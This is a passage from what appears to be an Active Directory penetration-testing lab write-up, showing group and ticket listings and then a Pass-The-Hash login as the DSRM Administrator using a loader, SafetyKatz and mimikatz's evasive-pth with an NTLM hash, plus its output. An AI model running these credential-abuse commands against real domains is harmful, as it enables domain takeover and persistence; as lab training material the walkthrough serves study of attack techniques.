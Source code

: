 ```
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (0)
```

Now on the student VM, we can use **Pass-The-Hash** (not OverPass-The-Hash) **for the DSRM administrator**.

`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe" "exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe
user    : Administrator🎭
domain  : dcorp-dc📌
program : cmd.exe
impers. : no
NTLM    : a102ad5753f4c441e3af31c97fad86fd🔑
  |  PID  4920
  |  TID  5096
  |  LSA Process is now R/W
  |  LUID 0 ; 4946176 (00000000:004b7900)
  \_ msv1_0   - data copy @ 000001C96013CD30 : OK !
  \_ kerberos - data copy @ 000001C960646B08
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001C9607154E8 (32) -> null

mimikatz(commandline) # exit
Bye!
```


[172.16.2.1]: PS C:\Users\Administrator.DCORP-DC\Documents>